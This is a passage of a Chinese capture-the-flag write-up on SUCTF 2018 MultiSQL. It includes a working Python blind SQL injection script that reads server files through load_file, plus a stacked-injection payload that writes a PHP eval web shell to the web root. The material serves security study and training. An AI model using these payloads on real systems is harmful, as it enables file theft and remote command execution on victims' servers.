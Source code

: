 得到

```
/var/www/html/uploads/870dc653fad7e522c10381da203ce6aa/GXYae5e4e67204bdd0d998be4c3d519c3a4.txt
```

再上传一个文件，加上name参数

![image-20220216232411080](https://img-blog.csdnimg.cn/img_convert/bda2be4718ef1562fa1cae003dfcf94a.png)



![image-20220216235350784](https://img-blog.csdnimg.cn/img_convert/b08902e060e5544f4eaee5836b1cd2d9.png)



# (**)[SUCTF 2018]MultiSQL

- 预处理堆叠注入写shell

[[SUCTF 2018\]MultiSQL(sql读取文件+写入文件) | (guokeya.github.io)](https://guokeya.github.io/post/t4QExMZtn/)

注册用户test，发现个人用户信息处可以修改头像并修改id参数越权访问admin，参数存在注入，但是后续数据被过滤

![image-20220216221059120](https://img-blog.csdnimg.cn/img_convert/f50d0fa4a7038576967bc83bde3fed36.png)

wp为堆叠注入，还能读文件

```python
import requests
cookies = {
    "PHPSESSID":"fg4kp97ksielnvnssv53iul2s6"
}
data='0x'
flag=''
r=requests.session()
for i in range(9999):
    for i in range(1,127):
        #print (i)
        url='http://e70a6fd4-f987-4651-9aa1-4bfd134e9a59.node3.buuoj.cn/user/user.php?id=0^(hex(load_file(0x2f7661722f7777772f68746d6c2f696e6465782e706870))<'+data+str(hex(i)).replace('0x','')+')'
        result=r.get(url=url,cookies=cookies).text
        if 'admin' in result:
            data+=str(hex(i-1)).replace('0x','')
            flag+=(chr(i-1))
            print (flag)
            break
print(data)
```

堆叠预处理写shell

```
select hex("select '<?php eval($_POST[cmd]);?>' into outfile '/var/www/html/favicon/shell.php';");
```

